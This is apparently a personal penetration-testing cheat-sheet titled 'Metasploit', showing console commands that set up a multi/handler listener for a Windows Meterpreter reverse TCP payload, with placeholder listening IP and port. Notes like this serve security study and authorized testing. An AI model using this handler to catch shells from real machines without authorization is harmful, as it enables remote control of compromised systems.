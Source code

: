 ```yaml
---
title: Metasploit
author: i4
date: M11-12-2022
---
```

# Metasploit

## Meterpreter handler
```
msf> use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST <Listening_IP>
msf exploit(handler) > set LPORT <Listening_Port>
msf exploit(handler) > run -j # run in background
```
